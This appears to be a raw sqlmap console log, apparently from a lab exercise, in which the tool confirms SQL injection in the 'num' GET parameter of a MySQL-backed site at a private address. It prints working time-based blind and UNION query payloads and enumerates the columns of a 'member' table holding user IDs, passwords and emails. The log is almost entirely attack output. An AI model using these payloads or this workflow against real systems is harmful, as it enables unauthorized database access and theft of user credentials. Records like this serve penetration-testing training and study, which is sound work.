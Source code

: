 ```

        ___
       __H__                                                                                   
 ___ ___[)]_____ ___ ___  {1.4.9#stable}                                                       
|_ -| . [,]     | .'| . |                                                                      
|___|_  ["]_|_|_|__,|  _|                                                                      
      |_|V...       |_|   http://sqlmap.org                                                    

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:46:52 /2020-10-22/

[14:46:53] [INFO] resuming back-end DBMS 'mysql' 
[14:46:53] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=ffiprr2fuql...cvnb2vv4m6'). Do you want to use those [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: num (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: num=1 AND (SELECT 1937 FROM (SELECT(SLEEP(5)))mvSW)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: num=-7367 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b7a7a71,0x4d5a4a437959714c74746f48517664794f6f4c734e7866545567667464654e726d5a5542464e5977,0x7178717071),NULL,NULL,NULL-- -
---
[14:46:56] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[14:46:56] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) columns
[14:46:56] [INFO] fetching current database
[14:46:56] [INFO] fetching columns for table 'member' in database 'WebTest'
[14:46:56] [INFO] resumed: 'no','int(11)'
[14:46:56] [INFO] resumed: 'u_id','varchar(20)'
[14:46:56] [INFO] resumed: 'u_pass','varchar(50)'
[14:46:56] [INFO] resumed: 'u_name','varchar(20)'
[14:46:56] [INFO] resumed: 'nickname','char(20)'
[14:46:56] [INFO] resumed: 'age','int(11)'
[14:46:56] [INFO] resumed: 'email','char(50)'
[14:46:56] [INFO] resumed: 'reg_date','datetime'
Database: WebTest                                                                             
Table: member
[8 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| no       | int(11)     |
| age      | int(11)     |
| email    | char(50)    |
| nickname | char(20)    |
| reg_date | datetime    |
| u_id     | varchar(20) |
| u_name   | varchar(20) |
| u_pass   | varchar(50) |
+----------+-------------+

[14:46:56] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.16.10.20'                                                                                     
```